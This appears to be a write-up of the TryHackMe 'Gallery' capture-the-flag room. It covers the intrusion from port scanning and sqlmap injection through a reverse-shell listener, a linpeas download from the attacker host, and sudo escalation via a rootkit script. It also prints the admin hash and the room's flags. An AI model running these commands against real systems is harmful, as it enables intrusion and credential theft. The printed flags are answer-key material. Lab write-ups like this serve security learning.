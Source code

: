 ```yaml
---
description: https://tryhackme.com/room/gallery666
---
```


# Gallery

![](../../.gitbook/assets/10.10.140.229.png)

## Task 1 Deploy and get a Shell

#### How many ports are open?

```bash
nmap -n -sC -sV 10.10.140.229
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-45-35.png>)

{% hint style="success" %}
`2`
{% endhint %}

#### What's the name of the CMS?

{% hint style="success" %}
`Simple Image Gallery`
{% endhint %}

#### What's the hash password of the admin user?

```bash
gobuster dir -u http://10.10.140.229/ \
             -w /usr/share/dirb/wordlists/common.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-50-57.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-52-01.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 19-11-03.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 19-12-47.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 19-13-31.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 19-18-43.png>)

```bash
sqlmap -u 'http://10.10.140.229/gallery/?page=albums/images&id=2' -p id \
       --cookie PHPSESSID=k26eekanikq82rd185amr3kf4k --dbs
sqlmap -u 'http://10.10.140.229/gallery/?page=albums/images&id=2' -p id \
       --cookie PHPSESSID=k26eekanikq82rd185amr3kf4k --dbms MySQL \
       --technique U -D gallery_db --tables
sqlmap -u 'http://10.10.140.229/gallery/?page=albums/images&id=2' -p id \
       --cookie PHPSESSID=k26eekanikq82rd185amr3kf4k --dbms MySQL \
       --technique U -D gallery_db -T users --dump
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 19-24-58.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 19-25-10.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 19-29-04.png>)

{% hint style="success" %}
`a228b12a08b6527e7978cbe5d914531c`
{% endhint %}

#### What's the user flag?

![](<../../.gitbook/assets/Screenshot from 2022-03-12 19-33-03.png>)

```bash
nc -nvlp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
find / -type f -name user.txt 2>/dev/null
cat /home/mike/user.txt
ls -l /home/mike/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 19-37-18.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 19-40-15.png>)

```bash
wget http://10.6.9.176/linpeas.sh -P /tmp
bash /tmp/linpeas.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 20-06-03.png>)

```bash
cat /var/backups/mike_home_backup/.bash_history
su - mike
cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 20-29-29.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 21-14-28.png>)

{% hint style="success" %}
`THM{af05cd30bfed67849befd546ef}`
{% endhint %}

## Task 2 Escalate to the root user

```bash
sudo -l
cat /opt/rootkit.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 20-30-05.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 20-30-59.png>)

```bash
export TERM=xterm
Ctrl+X
sudo /bin/bash /opt/rootkit.sh
^R /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 20-58-23.png>)

{% hint style="success" %}
`THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}`
{% endhint %}

## Xmind

{% file src="../../.gitbook/assets/10.10.140.229.xmind" %}
